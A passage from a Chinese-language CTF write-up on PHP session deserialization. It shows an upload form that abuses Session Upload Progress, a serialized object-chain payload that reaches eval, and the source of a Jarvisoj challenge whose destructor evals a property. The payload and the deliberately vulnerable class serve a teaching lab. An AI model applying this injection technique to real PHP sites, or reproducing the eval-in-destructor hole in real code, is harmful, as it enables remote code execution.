 写入的方式主要是利用PHP中[Session Upload Progress](http://php.net/manual/en/session.upload-progress.php)来进行设置，具体为，在上传文件时，如果POST一个名为PHP_SESSION_UPLOAD_PROGRESS的变量，就可以将filename的值赋值到session中，上传的页面的写法如下：

```html
<form action="index.php" method="POST" enctype="multipart/form-data">
 <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
 <input type="file" name="file" />
 <input type="submit" />
</form>
```



最终写入的内容：

```php
|O:4:\"foo1\":1:{s:4:\"varr\";O:4:\"foo2\":2:{s:4:\"varr\";s:1:\"1\";s:3:\"obj\";O:4:\"foo3\":1:{s:4:\"varr\";s:12:\"var_dump(1);\";}}}
```



需要注意的是，在这道题的实践中发现，ini_set无法改变PHP_SESSION_UPLOAD_PROGRESS时序列化的方式，只有当php.ini文件中session.serialize_handler设置为php_serialize才能够以我们想要的格式存入session文件，再次访问index.php时，ini_set将反序列化引擎设置为php，这时候可以以php方式反序列化session文件。



另外，这道题没有开启cleanup，php中默认开启。如果开启后，可以使用条件竞争进行触发。





#### Jarvisoj Web

> 题目地址：http://web.jarvisoj.com:32784/index.php

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('sessiontest.php'));
}
?>
```
